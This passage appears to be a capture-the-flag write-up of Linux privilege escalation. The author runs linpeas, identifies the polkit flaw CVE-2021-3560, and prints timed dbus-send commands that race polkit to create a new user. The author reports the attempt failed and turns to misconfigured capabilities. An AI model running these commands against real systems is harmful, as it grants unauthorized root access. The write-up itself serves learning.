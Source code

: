 `chmod +x linpeas.sh`  

And run the script  

`./linpeas.sh`  

After running the script in skimming through, the first thing I see is under "Executing Linux Exploit Suggester":  

![cap_7.png](cap_7.png)  

(Remember according to the legend this is 95% an attack vector)  

A google search for this CVE gives us the following [blog](https://github.blog/security/vulnerability-research/privilege-escalation-polkit-root-on-linux-with-bug/).  

Before reading through and understanding how to exploit this I first want to check if its vulnerable according to the article:  

![cap_8.png](cap_8.png)  

The machine is running Ubuntu 20.04 LTS which is vulnerable according to the article.  

## Privilege Escalation  

**Understanding the Vulnerability**  

- Vulnerability enables an unprivileged local user to get a root shell on the system
- polkit is the system service that’s running under the hood when you see a dialog box, it is a background process
- If you want to do something that requires higher privileges—for example, creating a new user account—then it’s polkit’s job to decide whether or not you’re allowed to do it. 
- This exploit uses accountsservice and gnome-control-center packages as vectors for exploitation
- Vulnerability is triggered by starting a dbus-send command but killing it while polkit is still in the middle of processing the request. 

**Exploitation with CVE-2021-3560**

To measure how long it takes to run the `dbus-send` command normally we need to run:  

`time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1`  


For me it took `0m0.159s`, so based on the article we need to kill the `dbus-send` command after 80 milliseconds, so the command we need to run is:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.080s ; kill $!`  

Now I struggled a lot with trying to exploit this vulnerability based on the instructions outlined in the article, I experimented with various times to kill the dbus-send command, measured the time the command took to run again and experimented some more but it just wouldn't work for me, so I went back to the linpeas output and there was another potential attack vector

**Exploitation with misconfigured capabilities**
